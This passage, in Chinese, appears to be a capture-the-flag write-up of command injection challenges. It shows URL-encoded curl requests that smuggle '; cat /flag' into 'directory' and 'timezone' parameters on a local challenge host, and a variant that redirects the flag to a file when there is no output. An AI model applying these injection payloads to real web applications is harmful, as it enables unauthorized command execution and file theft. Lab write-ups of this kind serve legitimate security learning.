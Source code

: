 依旧是利用;

注意单引号。ls -l ''会报错，但不影响后面的指令的执行。

```
curl -v http://challenge.localhost:80/?directory=%27%20%3B%20cat%20%2Fflag%20%3B%20ls%20%27
```



# 6-cmdi-4

## 描述

依旧是构造指令。

我构造的指令如下：

```
TZ=; cat /flag # date
```



## 实现

exp

```
curl -v http://challenge.localhost:80/?timezone=%3B%20cat%20%2Fflag%20%23
```



# 7-cmdi-5

## 问题描述

你依旧可以执行指令，可以cat /flag。但是不会有任何的输出。

## 思路

所以就要重定向，然后本地打开。

## 实现

exp

```
; cat /flag > /home/hacker/flag
```

url编码，请求后，/home/hacker/flag就会出现，读就行了。



# 8-cmdi-6
